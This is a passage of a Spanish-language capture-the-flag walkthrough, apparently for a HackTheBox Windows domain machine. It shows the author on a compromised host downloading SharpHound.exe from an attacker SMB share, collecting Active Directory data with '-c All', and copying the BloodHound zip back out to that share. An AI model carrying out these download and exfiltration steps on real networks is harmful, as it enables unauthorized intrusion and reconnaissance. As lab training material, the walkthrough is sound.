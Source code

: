 Podemos comprobar que estamos en otro equipo que no es el DC.
```shell
C:\Users\btables\AppData\Local\Temp\SDIAG_9caee2d7-dad7-40ff-bc98-6b0868f102ae>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.20.20
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.20.1
```

```shell
C:\Users\btables>hostname
hostname
client
```

## Bloodhound time
Después de pasar el `winpeas.exe` y no encontrar casi nada relevante, ni si quiera la flag de usuario, decidí pasar el `SharpHound.exe` para hacer un análisis con bloodhound.

Nos lo pasamos a la máquina víctima.
```shell
C:\Users\btables\Documents>copy \\10.10.14.125\smbFolder\SharpHound.exe .
copy \\10.10.14.125\smbFolder\SharpHound.exe .
        1 file(s) copied.
```

Lo ejecutamos y esperamos a que termine...
```shell
C:\Users\btables\Documents>.\SharpHound.exe -c All
```

Ahora nos copiamos el resultado a nuestro equipo.
```shell
C:\Users\btables\Documents>copy 20240826183058_BloodHound.zip \\10.10.14.125\smbFolder\20240826183058_BloodHound.zip
copy 20240826183058_BloodHound.zip \\10.10.14.125\smbFolder\20240826183058_BloodHound.zip
        1 file(s) copied.
```

Iniciamos la base de datos `neo4j` que es la que usa `bloodhound`
```shell
sudo neo4j start
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:8746). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```
